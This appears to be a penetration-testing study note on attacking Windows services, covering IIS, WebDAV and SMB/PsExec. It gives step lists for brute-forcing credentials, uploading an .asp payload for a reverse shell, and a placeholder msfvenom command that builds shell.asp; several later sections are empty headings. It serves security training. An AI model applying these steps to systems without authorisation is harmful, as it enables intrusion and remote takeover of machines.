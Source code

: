 # 🪟 Windows Attacks

## Windows Vulnerabilities

[Windows O.S.](https://www.microsoft.com/en-us/windows) is a prime target for attackers given the threat surface and its popularity.

Most of the Windows vulnerabilities **exploits** are publicly available, making them simple to use.

- Threat surface is fragmented, depending on the Win O.S. version.
- The older the O.S. version, the more vulnerable to attacks.
- All of Windows operating systems share a similarity according to the development model.
  - `C` programming language - leads to buffer overflows, arbitrary code execution, etc
  - No default security practices applied - must be sistematically handled by the company
  - Patching by Microsoft is not immediate, or versions are out of support/patching
- To name a few, Windows `XP`, `7`, `Server 2008` and Server 2012, are still used by many companies and are *largerly vulnerable*, leaving the systems open to new attack vectors.
  - Cross platform vulnerabilities, `e.g.` SQL injections, cross-site scripting (on IIS web servers)
- Physical attacks, `e.g.` malicious USB drives, theft, etc

### Vulns Types

|           Vulnerability           |                                                              |
| :-------------------------------: | :----------------------------------------------------------- |
|   **`Information Disclosure`**    | allows an attacker to access confidential data               |
|      **`Buffer Overflows`**       | programming error that allows an attacker to write data to a buffer and overrun the allocated buffer, therefore writing malicious data to allocated memory addresses |
| **`Remote Code Execution (RCE)`** | allows an attacker to remotely execute code on the target    |
|    **`Privilege Escalation`**     | allows an attacker to elevate their privileges after initial compromise |
|   **`Denial of Service (DoS)`**   | allows an attacker to flood a target consuming its resources (CPU, RAM, Network ...), interrupting the system's normal functioning, resulting in denial of service to other users |

## Services Exploitation

Windows has various standard native services and protocols configured or not on a host. When active, they provide an attacker with an **access vector**.

| Protocol/Service                                             | Ports                                   | Purpose                                                      |
| ------------------------------------------------------------ | --------------------------------------- | ------------------------------------------------------------ |
| [Microsoft **IIS**](https://www.iis.net/) (**I**nternet **I**nformation **S**ervices) | TCP `80`/`443`                          | Microsoft Web server for Windows, hosting web applications   |
| [**WebDAV**](https://learn.microsoft.com/en-us/windows/win32/webdav/webdav-portal) (**W**eb **D**istributed **A**uthoring & **V**ersioning) | TCP `80`/`443`                          | HTTP extension that allows clients to copy, move, delete and update files on a web server. Used to enable a web server to act as a *file server* |
| [**SMB**](https://learn.microsoft.com/en-us/windows-server/storage/file-server/file-server-smb-overview)/CIFS (**S**erver **M**essage **B**lock) | TCP `445` / on top of NetBios `137-139` | Network file and peripherals sharing protocol, betweend computers on a local network (LAN) |
| [**RDP**](https://learn.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (**R**emote **D**esktop **P**rotocol) | TCP `3389`                              | GUI remote access protocol used to remotely authenticate and interact with Windows *(Disabled by default)* |
| [**WinRM**](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) (**W**indows **R**emote **M**anagement **P**rotocol) | TCP `5986`/`443`                        | Used to facilitate remote access with Windows systems, execute remote commands |

### IIS WebDAV

🗒️ [Microsoft **IIS**](https://www.iis.net/) (**I**nternet **I**nformation **S**ervices) - a Microsoft proprietary extensible web server developed for use with Windows.

- Ports: **`80`** (no certificate), **`443`** (with SSL Certificate)
- Host websites and web applications
- Administrative GUI for IIS management
-  Static and dynamic web pages, developed in `ASP.NET` and `PHP`
- Supported file extensions: `.asp`, `.aspx`, `.config`, `.php`

🗒️ [**WebDAV**](https://learn.microsoft.com/en-us/windows/win32/webdav/webdav-portal) (**W**eb **D**istributed **A**uthoring & **V**ersioning) - a set of HTTP protocol extentions used by users to manage file on remote web servers.

- Web server as `File server`
- Runs on top of Apache or IIS - ports `80`/`443`
- Credentials, `username` & `password`, are necessary for connection the WebDAV server

#### WebDAV Exploitation

1. Check *if WebDAV is configured* to run on the IIS web server.
2. **Brute-force attack** on the WebDAV server - *identify legitimate credentials*.
3. Use the obtained credentials to *authenticate with the WebDAV* and upload malicious code, like an `.asp` **payload**, used to execute arbitrary commands or obtain **reverse shell** on the target.

#### Tools

> [**`davtest`**](https://www.kali.org/tools/davtest) - scanner tool used to *scan, authenticate and exploit a WebDAV server, by uploading test executable files which allow for command execution on the target.* Pre-installed on Kali Linux and Parrot OS.

```bash
davtest -url <URL>
```

![davtest](.gitbook/assets/image-20230310123401296.png)

> [**`cadaver`**](https://www.kali.org/tools/cadaver/) - supports file *upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking*. Pre-installed on Kali Linux and Parrot OS.

```bash
cadaver [OPTIONS] <URL>
```

![cadaver](.gitbook/assets/image-20230310124041568.png)

> [**`msfvenom`**](https://www.kali.org/tools/metasploit-framework/#msfvenom) - a Metasploit standalone payload generator and encoder

```bash
msfvenom -p <PAYLOAD> LHOST=<LOCAL_HOST_IP> LPORT=<PORT> -f <file_type> > shell.asp
```

![msfvenom](.gitbook/assets/image-20230310154748079.png)

> 🔬 Check some hands-on labs in the [IIS - WebDAV section](windows-attacks/iis-webdav.md)

### SMB

🗒️ [**SMB**](https://learn.microsoft.com/en-us/windows-server/storage/file-server/file-server-smb-overview) (Server Message Block) - a network file sharing protocol, used for files and peripherals sharing, on Windows

- Ports: **`445`** (TCP), **`139`** (NetBIOS)
- Two levels of authentication to access a share:
  - *User Authentication* -  `username` & `password`
  - *Share Authentication* - `password`
  - both utilize a challenge response authentication system

🗒️ **SAMBA** is the open source *Linux* SMB

- it allows Windows systems to access Linux shares

#### SMB Authentication

1. Auth request from the client to the server
2. The server request the client to encrypt string with user's hash
3. The client sends the encrypted string to the server
4. The server checks the actual string value of that users matches the client's one, and grant access. It doesn't match access is denied

#### PsExec

> [**`psexec`**](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) - a light-weight telnet-replacement that lets you execute processes on remote systems, complete with full interactivity for console applications, using any user's credentials

- PsExec authentication is performed via SMB
- Run arbitrary commands or a remote command prompt
- Commands are sent via **`CMD`** (without a GUI like `RDP`)
- Legitimate user account and passwords/hashes are necessary to gain Windows target access

#### PsExec Exploitation

1. Leverage various techniques, `e.g.` **SMB login brute-force** attack.
2. Narrow down the attack to only common Win user accounts, `e.g.` **Administrator**.
3. Use the obtained credentials to authenticate via **`PsExec`** and execute system commands or get a reverse shell.

> 🔬 Check some hands-on labs in the [SMB - PsExec section](windows-attacks/smb-psexec.md)

### RDP



### WinRM









## Win Kernel Exploits

### UAC Bypass

### Access Token Impersonation

### Data Streams

### Password Hashes

### Passwords Configuration Files

### Mimikats Hashes Dumping

### Pass-The-Hash